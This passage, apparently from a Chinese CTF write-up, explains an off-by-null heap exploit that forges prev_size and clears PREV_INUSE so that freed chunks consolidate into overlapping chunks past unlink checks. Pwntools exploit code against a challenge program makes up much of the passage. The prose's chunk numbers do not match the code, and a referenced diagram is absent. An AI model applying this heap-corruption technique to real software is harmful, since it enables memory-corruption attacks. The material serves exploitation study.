下面是一个正常的要给offbynull的一个流程图这个图中我们可以明确知道一些思路同时


所以我们这个一个主要方法就是释放chunk1然后修改chunk3的prev_size和PREV_INUSE位是的chunk3和chunk1合并并且把chunk2包括在这个chunk中实现堆重叠，由于这里用到了unlink合并因此我们我们也要绕过unlink的一个过滤

因此我们的攻击代码就是

```py
add_chunk(0, 0x200)
add_chunk(1, 0x18)
add_chunk(2, 0x1f0)
add_chunk(3, 0x10)
delete_chunk(0)
edit_chunk(1, b'a' * 0x10 + p64(0x230) + p8(0))

# gdb.attach(p, "b _int_free\nc")
# gdb.attach(p)
# pause()

delete_chunk(2)
gdb.attach(p)
# add_chunk(0, 0x428)
# delete_chunk(1)

p.interactive()
```

---

但是这里同样还有一个新的类型的一个题目
